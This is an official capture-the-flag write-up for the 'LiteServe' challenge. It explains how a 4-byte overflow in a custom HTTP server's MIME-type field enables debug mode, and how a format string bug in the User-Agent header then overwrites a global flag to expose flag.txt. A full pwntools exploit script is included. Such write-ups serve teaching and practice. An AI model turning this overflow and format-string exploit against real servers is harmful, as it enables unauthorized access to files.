


        <font size="10">LiteServe</font>

​        30<sup>th</sup> April 2025

​        Prepared By: 131LL

​        Challenge Author(s): 131LL

​        Difficulty: <font color=green>Easy</font>

​        Classification: Official

# Synopsis

LiteServe is an easy binary exploitation challenge, featuring a minimal custom http server supporting only GET requests. The player has to exploit a buffer overflow and a format string vulnerability in a request's headers, in order to overwrite a global variable that unlocks extra functionality and allows access to the flag.txt file.

## Description

As part of Operation Blackout, Volnaya deployed a series of lightweight access nodes across compromised infrastructure.
One such unit was recently recovered from a decommissioned power substation, still active and quietly serving requests over a custom-built HTTP interface.
The server exposes only a static diagnostic page and supports minimal functionality.
However, technical analysis indicates that the service may support broader access under restricted conditions,
potentially used by internal tools or field operators during the operation.
Your task is to investigate the service and determine whether it can be coerced into exposing protected resources or hidden functionality tied to Volnaya’s field operations.

## Skills Required

- Basic debugging skills
- Familiarity with buffer overflows
- Basic format string vulnerability exploitation

## Skills Learned

- Combining exploit techniques

# Enumeration

### Protections

Let's start by running `checksec` against the binary we are given:

```bash
$ checksec --file=server
  Arch:     amd64-64-little
  RELRO:    Partial RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      No PIE (0x400000)
```

The only thing that stands out is that `PIE` is not enabled.

### Program Interface

Running the binary, we open our browser to find the `index.html` page:



### Disassembly ⛏️

Let's take a closer look using `Ghidra`.

There is plenty of code here, so we will focus on the interesting parts.

A new thread opens to handle each client that connects.

A `ctx` struct is used for each request to keep track of data sent to the server, and data the server will be sending back.

There is also a `ctx->debug` field that is used throughout the code, printing info messages when set to `true`.

```C
void init_ctx(ctx_t *ctx,_Bool debug_mode)
{
  _Bool debug_mode_local;
  ctx_t *ctx_local;
  
  if (debug_mode) {
    puts("init_ctx()");
  }
  memset(ctx,0,1000000);
  memset(ctx->method,0,0x10);
  memset(ctx->route,0,0x80);
  memset(ctx->http_version,0,0x10);
  memset(ctx->filepath,0,0x80);
  memset(ctx->file_extension,0,0x24);
  memset(ctx->host_header,0,0x80);
  memset(ctx->user_agent_header,0,0x80);
  memset(ctx->accept_header,0,0x80);
  memset(ctx->accept_language_header,0,0x80);
  memset(ctx->accept_encoding_header,0,0x80);
  memset(ctx->connection_header,0,0x80);
  memset(ctx->status,0,0x10);
  memset(ctx->response,0,1000000);
  memset(ctx->mime_type,0,0x20);
  ctx->debug = debug_mode;
  return;
}
```

In the `main()` function, a global variable `PRIV_MODE` is initialized to "OFF":

```C
priv_mode = getenv("PRIV_MODE");
if (priv_mode == (char *)0x0) {
  PRIV_MODE[0] = 'O';
  PRIV_MODE[1] = 'F';
  PRIV_MODE[2] = 'F';
  PRIV_MODE[3] = '\0';
}
else {
  iVar2 = strcmp(priv_mode,"ON");
  if (iVar2 == 0) {
    PRIV_MODE[0] = 'O';
    PRIV_MODE[1] = 'N';
    PRIV_MODE[2] = '\0';
  }
  else {
    PRIV_MODE[0] = 'O';
    PRIV_MODE[1] = 'F';
    PRIV_MODE[2] = 'F';
    PRIV_MODE[3] = '\0';
  }
}
```

It is later used in the `extension_is_allowed()` call. If the `PRIV_MODE` is set to "OFF", the server can only return files that have a ".html" or ".htm" extension", while if it set to "ON", all file extensions are allowed.

Naturally, the `PRIV_MODE` variable has become our targer for overwriting.

```C
_Bool extension_is_allowed(ctx_t *ctx)

{
  long lVar1;
  _Bool _Var2;
  int iVar3;
  size_t __n;
  long in_FS_OFFSET;
  ctx_t *ctx_local;
  size_t n;
  size_t i;
  char *allowed_extensions [7];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  if (ctx->debug != false) {
    puts("extension_is_allowed()");
  }
  n = 2;
  allowed_extensions[0] = "html";
  allowed_extensions[1] = "htm";
  allowed_extensions[2] = "txt";
  allowed_extensions[3] = "jpg";
  allowed_extensions[4] = "jpeg";
  allowed_extensions[5] = "png";
  allowed_extensions[6] = "pdf";
  iVar3 = strcmp(PRIV_MODE,"ON");
  if (iVar3 == 0) {
    n = 7;
  }
  i = 0;
  do {
    if (n <= i) {
      _Var2 = false;
LAB_00402378:
      if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return _Var2;
    }
    __n = strlen(allowed_extensions[i]);
    iVar3 = strncmp(ctx->file_extension,allowed_extensions[i],__n);
    if (iVar3 == 0) {
      _Var2 = true;
      goto LAB_00402378;
    }
    i = i + 1;
  } while( true );
}
```

Now, the bug-hunting phase.

In the `get_mime_type()` function, we can see there is a buffer overflow on the `ctx->mime_type` field, if an unknown file extension is used.

```C
void get_mime_type(ctx_t *ctx)

{
  int iVar1;
  ctx_t *ctx_local;
  
  if (ctx->debug != false) {
    puts("get_mime_type()");
  }
  iVar1 = strcasecmp(ctx->file_extension,"html");
  if ((iVar1 == 0) || (iVar1 = strcasecmp(ctx->file_extension,"htm"), iVar1 == 0)) {
    strncpy(ctx->mime_type,"text/html",0x20);
    return;
  }
  iVar1 = strcasecmp(ctx->file_extension,"txt");
  if (iVar1 == 0) {
    strncpy(ctx->mime_type,"text/plain",0x20);
    return;
  }
  iVar1 = strcasecmp(ctx->file_extension,"jpg");
  if ((iVar1 != 0) && (iVar1 = strcasecmp(ctx->file_extension,"jpeg"), iVar1 != 0)) {
    iVar1 = strcasecmp(ctx->file_extension,"png");
    if (iVar1 == 0) {
      strncpy(ctx->mime_type,"image/png",0x20);
      return;
    }
    iVar1 = strcasecmp(ctx->file_extension,"pdf");
    if (iVar1 == 0) {
      strncpy(ctx->mime_type,"application/pdf",0x20);
      return;
    }
    memcpy(ctx->mime_type,ctx->file_extension,0x24);
    return;
  }
  strncpy(ctx->mime_type,"image/jpeg",0x20);
  return;
}
```

This happens because the code uses this line:

```C
memcpy(ctx->mime_type,ctx->file_extension,0x24);
```

A size of `0x24` is used, which is the maximum size of the file extension, while the maximum size of the mime_type is only `0x20`. Thus, we have a 4-byte overflow, which is not enough to hijack the execution flow (especially when a stack canary is in place), but we can overwrite fields of the `ctx` struct that follow `ctx->mime_type` in memory. Luckily for us, that is the `ctx->debug` boolean field.

So, putting it all together, by requesting a file with a random file extension, the binary will not recognize it, and copy the file extension in the `ctx->mime_type` field. If that random file extension is large enough, it will overflow the `mime_type` buffer and we overwrite the `ctx->debug` variable and set it to `true`, enabling debug messages server-side.

A boolean `true` is represented as a `01` in memory (one byte), while a `false` is represented with a `00`. But, since the code uses it like this:

```C
if (ctx->debug) {...}
```

We can overwrite the `ctx->debug` variable with any value that is not `00`, and it will still pass the condition.

Taking a deeper look into the code, we can find a way to use the debug messages. This is the function that parses the request headers:

```C
void parse_headers(ctx_t *ctx)
{
  char *pcVar1;
  long lVar2;
  size_t sVar3;
  char[0] *pcVar4;
  int iVar5;
  ulong uVar6;
  char *pcVar7;
  undefined *puVar8;
  long in_FS_OFFSET;
  undefined auStack_a8 [8];
  ctx_t *ctx_local;
  char *header_start;
  char *header_value;
  char *line_end;
  char *header_end;
  size_t line_length;
  size_t local_68;
  char[0] *header_line;
  char *colon_pos;
  char *header_name;
  size_t len;
  long local_40;
  
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  ctx_local = ctx;
  if (ctx->debug != false) {
    puts("parse_headers()");
  }
  line_end = strstr(ctx_local->request,"\r\n");
  pcVar7 = line_end;
  if ((line_end == (char *)0x0) && (ctx_local->debug != false)) {
    puts("Invalid request");
  }
  else {
    while( true ) {
      header_start = pcVar7 + 2;
      header_end = strstr_with_length(header_start,"\r\n",0x80);
      if (header_end == (char *)0x0) break;
      line_length = (long)header_end - (long)header_start;
      if (line_length == 0) break;
      local_68 = line_length;
      uVar6 = ((line_length + 0x10) / 0x10) * 0x10;
      for (puVar8 = auStack_a8; puVar8 != auStack_a8 + -(uVar6 & 0xfffffffffffff000);
          puVar8 = puVar8 + -0x1000) {
        *(undefined8 *)(puVar8 + -8) = *(undefined8 *)(puVar8 + -8);
      }
      lVar2 = -(ulong)((uint)uVar6 & 0xfff);
      if ((uVar6 & 0xfff) != 0) {
        *(undefined8 *)(puVar8 + ((ulong)((uint)uVar6 & 0xfff) - 8) + lVar2) =
             *(undefined8 *)(puVar8 + ((ulong)((uint)uVar6 & 0xfff) - 8) + lVar2);
      }
      sVar3 = line_length;
      pcVar7 = header_start;
      header_line = puVar8 + lVar2;
      *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401dd7;
      strncpy(puVar8 + lVar2,pcVar7,sVar3);
      pcVar4 = header_line;
      header_line[line_length] = 0;
      *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401df6;
      colon_pos = strchr(pcVar4,0x3a);
      pcVar4 = header_line;
      pcVar7 = header_end;
      if (colon_pos != (char *)0x0) {
        *colon_pos = '\0';
        header_name = header_line;
        header_value = colon_pos;
        do {
          header_value = header_value + 1;
        } while (*header_value == ' ');
        len = 0x80;
        if ((ulong)((long)header_end - (long)header_value) < 0x81) {
          len = (long)header_end - (long)header_value;
        }
        *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401e63;
        iVar5 = strcmp(pcVar4,"Host");
        sVar3 = len;
        pcVar1 = header_name;
        pcVar7 = header_value;
        if (iVar5 == 0) {
          pcVar1 = ctx_local->host_header;
          *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401e88;
          strncpy(pcVar1,pcVar7,sVar3);
          pcVar7 = header_end;
          if (ctx_local->debug != false) {
            pcVar7 = ctx_local->host_header;
            *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401ec2;
            printf("Host: %s\n",pcVar7);
            pcVar7 = header_end;
          }
        }
        else {
          *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401edd;
          iVar5 = strcmp(pcVar1,"User-Agent");
          sVar3 = len;
          pcVar1 = header_name;
          pcVar7 = header_value;
          if (iVar5 == 0) {
            pcVar1 = ctx_local->user_agent_header;
            *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f06;
            strncpy(pcVar1,pcVar7,sVar3);
            pcVar7 = header_end;
            if (ctx_local->debug != false) {
              pcVar7 = ctx_local->user_agent_header;
              *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f40;
              iVar5 = strncmp(pcVar7,"curl",4);
              if (iVar5 == 0) {
                *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f58;
                printf("Curl Version: ");
                pcVar7 = ctx_local->user_agent_header;
                *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f72;
                printf(pcVar7);
                pcVar7 = header_end;
              }
              else {
                pcVar7 = ctx_local->user_agent_header;
                *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f9b;
                printf("User-Agent: %s\n",pcVar7);
                pcVar7 = header_end;
              }
            }
          }
          else {
            *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401fb6;
            iVar5 = strcmp(pcVar1,"Accept");
            sVar3 = len;
            pcVar1 = header_name;
            pcVar7 = header_value;
            if (iVar5 == 0) {
              pcVar1 = ctx_local->accept_header;
              *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401fdb;
              strncpy(pcVar1,pcVar7,sVar3);
              pcVar7 = header_end;
              if (ctx_local->debug != false) {
                pcVar7 = ctx_local->accept_header;
                *(undefined8 *)(puVar8 + lVar2 + -8) = 0x402015;
                printf("Accept: %s\n",pcVar7);
                pcVar7 = header_end;
              }
            }
            else {
              *(undefined8 *)(puVar8 + lVar2 + -8) = 0x402030;
              iVar5 = strcmp(pcVar1,"Accept-Language");
              sVar3 = len;
              pcVar1 = header_name;
              pcVar7 = header_value;
              if (iVar5 == 0) {
                pcVar1 = ctx_local->accept_language_header;
                *(undefined8 *)(puVar8 + lVar2 + -8) = 0x402055;
                strncpy(pcVar1,pcVar7,sVar3);
                pcVar7 = header_end;
                if (ctx_local->debug != false) {
                  pcVar7 = ctx_local->accept_language_header;
                  *(undefined8 *)(puVar8 + lVar2 + -8) = 0x40208f;
                  printf("Accept-Language: %s\n",pcVar7);
                  pcVar7 = header_end;
                }
              }
              else {
                *(undefined8 *)(puVar8 + lVar2 + -8) = 0x4020aa;
                iVar5 = strcmp(pcVar1,"Accept-Encoding");
                sVar3 = len;
                pcVar1 = header_name;
                pcVar7 = header_value;
                if (iVar5 == 0) {
                  pcVar1 = ctx_local->accept_encoding_header;
                  *(undefined8 *)(puVar8 + lVar2 + -8) = 0x4020cf;
                  strncpy(pcVar1,pcVar7,sVar3);
                  pcVar7 = header_end;
                  if (ctx_local->debug != false) {
                    pcVar7 = ctx_local->accept_encoding_header;
                    *(undefined8 *)(puVar8 + lVar2 + -8) = 0x402109;
                    printf("Accept-Encoding: %s\n",pcVar7);
                    pcVar7 = header_end;
                  }
                }
                else {
                  *(undefined8 *)(puVar8 + lVar2 + -8) = 0x402121;
                  iVar5 = strcmp(pcVar1,"Connection");
                  sVar3 = len;
                  pcVar1 = header_value;
                  pcVar7 = header_end;
                  if (iVar5 == 0) {
                    pcVar7 = ctx_local->connection_header;
                    *(undefined8 *)(puVar8 + lVar2 + -8) = 0x402146;
                    strncpy(pcVar7,pcVar1,sVar3);
                    pcVar7 = header_end;
                    if (ctx_local->debug != false) {
                      pcVar7 = ctx_local->connection_header;
                      *(undefined8 *)(puVar8 + lVar2 + -8) = 0x40217c;
                      printf("Connection: %s\n",pcVar7);
                      pcVar7 = header_end;
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  if (local_40 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

The part we are interested is this:

```C
if (iVar5 == 0) {
  pcVar1 = ctx_local->user_agent_header;
  *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f06;
  strncpy(pcVar1,pcVar7,sVar3);
  pcVar7 = header_end;
  if (ctx_local->debug != false) {
    pcVar7 = ctx_local->user_agent_header;
    *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f40;
    iVar5 = strncmp(pcVar7,"curl",4);
    if (iVar5 == 0) {
      *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f58;
      printf("Curl Version: ");
      pcVar7 = ctx_local->user_agent_header;
      *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f72;
      printf(pcVar7);
      pcVar7 = header_end;
    }
    else {
      pcVar7 = ctx_local->user_agent_header;
      *(undefined8 *)(puVar8 + lVar2 + -8) = 0x401f9b;
      printf("User-Agent: %s\n",pcVar7);
      pcVar7 = header_end;
    }
  }
}
```

Here, the `user-agent` header is parsed. If the `user-agent` is `curl` (e.g. `curl/7.81.0`), and `ctx->debug` is not `false`, it tries printing the curl version. Here lies a crucial `format string vulnerability`.

```C
printf(pcVar7);
```

The `curl` version string is printed without a format specifier. This gives us an arbitrary write primitive.

We have established `PRIV_MODE` as our target already, so it's time to combine everything together.

### Exploitation

So, to recap, we will be exploiting a buffer overflow and a format string vulnerability.

They both need to happen on the same request, since a new `ctx` struct is used for every request, and thus the overwrite on `ctx->debug` through the buffer overflow would be useless on the next request we send.

Let's start with a basic template for our challenge:

```python
#!/usr/bin/env python3
import socket
from pwn import *

_bin = "../challenge/server"
elf = ELF(_bin, checksec=False)
context.binary = elf

ip = "localhost"
port = 1337

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))
```

The first part is very easy, we will simply write one byte past the size of the mime type buffer (32 bytes), overwriting the `ctx->debug` field with a non-zero value.

```python
# overflow ctx->debug
route = b"xxxx.html"
route += b"A" * (33 - 4) # "html" len = 4
```

This will enable the debug messages, unlocking the format string vulnerability hidden in the `parse_headers()` function.

```python
def send_req_pload(route, headers={}):
  request = b"GET " + route + b" HTTP/1.1\r\n"
  for key, value in headers.items():
    if isinstance(key, str): key = key.encode()
    if isinstance(value, str): value = value.encode()
    request += key + b": " + value + b"\r\n"
  request += b"\r\n"
  sock.sendall(request)

header_pload = b"curl" # "/" missaligns the payload - skip it since its not being checked

# use this to find the offset ( = 8 )
header_pload += b"AAAAAAAA%8$p"

headers = {"Connection": "close", "User-Agent": header_pload}

send_req_pload(route, headers=headers)

# Close the socket
sock.close()
```

Using the code snippet above we can verify the offset we need to use in the format string payload is `8`.

```bash
$ ./server 
parse_headers()
Connection: close
Curl Version: curlAAAAAAAA0x4141414141414141extension_is_allowed()
build_http_response()
Sending response
```

Now that we have the correct offset we can overwrite the global variable:

```python
target = elf.sym.PRIV_MODE
value = b"ON\x00\x00"

# fmt str to overwrite global var PRIV_MODE to ON
writes = {target : value}

header_pload = b"curl" # "/" missaligns the payload - skip it since its not being checked
header_pload += fmtstr_payload(8, writes, write_size="short", numbwritten=len(header_pload))

headers = {"Connection": "close", "User-Agent": header_pload}

# overwrite ctx->debug & fmt string payload
send_req_pload(route, headers=headers)

# Close the socket
sock.close()
```

## Solution

Now, the entire list of file extensions is allowed. We can simply visit `http://<IP>:<PORT>/flag.txt` and retrieve the flag.


